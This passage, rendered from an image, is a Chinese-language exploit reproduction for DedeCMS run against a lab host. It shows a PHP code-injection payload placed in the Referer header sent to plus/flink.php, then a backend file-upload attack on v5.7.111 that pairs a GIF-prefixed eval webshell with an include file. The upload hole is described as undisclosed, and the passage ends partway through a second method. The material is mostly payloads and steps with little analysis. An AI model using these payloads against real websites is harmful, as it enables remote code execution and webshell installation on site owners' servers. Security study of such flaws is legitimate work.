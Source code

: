 ```
漏洞复现
访问靶场页面
http://192.168.1.187/DedeCMS-5.8.1/plus/flink.php

通过burp抓取靶场数据包
http://192.168.1.187/DedeCMS-5.8.1/plus/flink.php?dopost=save&amp;c=id
添加或修改Referer字段
&lt;?php echo `whoami`; ?&gt;

```

`http://192.168.1.187/DedeCMS-5.8.1/plus/flink.php`页面

```
访问http://192.168.1.187/DedeCMS-5.8.1/plus/flink.php?dopost=save&amp;c=id
正常会让提示你验证码不正确,之后会给你跳转回去,原理就是他这个referer,他会跳转回referer的地址

```

```
可以通过添加Referer: http://www.baidu.com来进行验证

```

```
我们添加referer字段
Referer: &lt;?php echo `whoami`; ?&gt;
可以获取到如下信息

```

#### 未公开的漏洞

#### 后台文件上传漏洞(dedecms_v5.7.111)

##### 方法一

```
上传一个图片马
我的图片马
GIF89a&lt;?php
@eval($_REQUEST[1]);

```

再新建一个文件,使用include来引用图片马的内容

集齐这两个文件可以召唤一个文件上传漏洞

上传完包含问价,直接访问,进行传参即可

##### 方法二

```
这个方法的大致思路是我们上传一个文件上传页面,来绕过限制

```
